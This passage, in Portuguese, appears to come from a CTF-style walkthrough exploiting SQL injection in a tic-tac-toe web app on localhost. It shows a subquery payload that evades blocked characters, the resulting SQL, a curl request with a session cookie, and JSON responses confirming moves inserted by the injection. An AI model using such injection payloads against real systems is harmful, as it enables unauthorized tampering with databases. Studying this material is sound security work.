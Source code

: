 Ele está ocorrendo aqui na linha 129, logo após a função `insert_move`, que gera o SQL:

```python=127
insert_move(current_moves, position, 'X')

current_moves['X'].append(int(position))
```

Isso causa a impressão de que o SQL Injection falhou, afinal recebemos um erro, MAS você pode ver que o movimento foi inserido de qualquer forma!

Apesar do retorno com erro nesse request, é possível verificar o status do jogo em outra rota: `game/<game_key>/info`, que é chamada quando você carrega um jogo.

Resposta:

```json
{
    "O": [7],
    "X": [1,2],
    "game_id": 3,
    "game_key": "addb868e-429e-4ef2-b2d1-099ca950a346",
    "winner": "?"
}
```

O player `X` agora tem os movimentos `1` e `2`, conforme o nosso plano diabólico.

Validamos que podemos incluir uma expressão. Podemos incluir um SQL? O importante é não incluir nenhum dos caracteres bloqueados (aspas, etc..).

Vamos testar a posição 3, mas agora usando uma subquery, com o payload:

```
position=(select 2+1)
```

Isso gera o SQL abaixo:

```sql
insert into moves
  (game_id, position, value) 
values (1, (select 2+1), "X")
```

Bora pra luta:

```bash
curl 'http://localhost:5000/game/8436bd1e-4436-4f41-8ea0-9d39da8d8036/move' \
  -H 'Content-Type: application/x-www-form-urlencoded;charset=UTF-8' \
  -H 'Cookie: session=eyJ1c2VyX2lkIjoyLCJ1c2VybmFtZSI6Im5lcHR1bmlhbjEifQ.Y5MZ8Q.jwVLLcNg7oQKDcVVC6ZC8lMol80' \
  --data-raw 'position=(select%202%2B1)'
```

Recebemos a mesma resposta com erro Python, mas o `/info` retorna:

```json
{
    "O": [7],
    "X": [1,2,3],
    "game_id": 3,
    "game_key": "addb868e-429e-4ef2-b2d1-099ca950a346",
    "winner": "?"
}
```
